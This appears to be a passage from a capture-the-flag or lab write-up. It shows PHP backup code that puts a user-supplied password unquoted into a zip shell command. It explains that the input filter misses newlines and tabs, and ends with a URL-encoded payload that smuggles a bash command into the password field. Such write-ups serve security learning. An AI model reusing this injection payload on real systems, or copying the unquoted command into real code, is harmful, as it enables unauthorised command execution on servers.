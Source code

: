 ```php
        $command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
        
        $descriptor_spec = [
            0 => ["pipe", "r"], // stdin
            1 => ["file", $logFile, "w"], // stdout
            2 => ["file", $logFile, "w"], // stderr
        ];

        $process = proc_open($command, $descriptor_spec, $pipes);
        if (is_resource($process)) {
            proc_close($process);
        }

        sleep(2);

        $logContents = file_get_contents($logFile);
        if (strpos($logContents, 'zip error') === false) {
            echo "<div class='backup-success'>";
            echo "<p>Backup created successfully.</p>";
            echo "<a href='" . htmlspecialchars($backupFile) . "' class='download-button' download>Download Backup</a>";
            echo "<h3>Output:</h3><pre>" . htmlspecialchars($logContents) . "</pre>";
            echo "</div>";
        } else {
            echo "<div class='error-message'>Error creating the backup.</div>";
        }

        unlink($logFile);
    }
}
?>

	</div>
        
        <?php if (isset($backupMessage)) { ?>
            <div class="message"><?php echo $backupMessage; ?></div>
        <?php } ?>
    </div>
</body>
</html>
```

There's a critical vulnerability in this code, the `cleanEntry` function filters out dangerous characters (`;`, `&`, `|`, `$`, , `` ` ``, `{`, `}`, `&&`), but **newlines (`\n`)** and **tabs (`\t`)** are allowed. The `$password` is directly inserted into a shell command without proper quoting, enabling command injection via newlines.

After testing some payloads, I was able to exploit the `id` command with the following:

```
password=%0Abash%09-c%09"id"%0A&backup=Create+Backup
```
